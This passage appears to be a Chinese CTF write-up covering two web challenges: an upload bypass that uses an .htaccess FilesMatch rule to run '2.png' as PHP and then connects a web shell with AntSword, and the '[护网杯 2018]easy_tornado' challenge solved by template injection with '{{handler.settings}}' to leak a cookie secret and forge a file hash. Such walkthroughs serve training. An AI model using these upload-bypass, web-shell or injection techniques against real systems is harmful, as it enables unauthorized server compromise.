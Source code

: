 启用.htaccess需要修改httpd.conf（Apache里的）

```
.htaccess可以帮我们实现包括：文件夹密码保护、用户自动重定向、自定义错误页面、改变你的文件扩展名、封禁特定IP地址的用户、只允许特定IP地址的用户、禁止目录列表，以及使用其他文件作为index文件等一些功能。
```

写一个.htaccess文件，将其他类型的文件转化成php文件

```
<FilesMatch "2.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

接着我们再上传.htaccess文件，抓包，Content-Type更改成image/png

蚁剑连接2.png即可 路径：/upload/94e1b5d8a172dee319d653594cff56e6/2.png

根目录找到flag

![image-20230420143227755](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420143227755.png)

## [护网杯 2018]easy_tornado

有三个文件

/flag.txt

![image-20230420143534518](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420143534518.png)

/welcome.txt

![image-20230420143547654](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420143547654.png)

/hints.txt

![image-20230420143640993](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420143640993.png)

提示flag在/fllllllllllllag里，filehash=md5(cookie_secret+md5(/fllllllllllllag))

根据题目easy_tornado可推测是服务器模板注入

需要找到cookie_serect

注入`{{handler.settings}}`查看配置文件，得到cookie_secert

![image-20230420144517901](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420144517901.png)



接着进行MD5加密

payload：

```
?filename=/fllllllllllllag&filehash=90464389fd908f5db3eb64d0f42e2048
```

![image-20230420144930047](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420144930047.png)
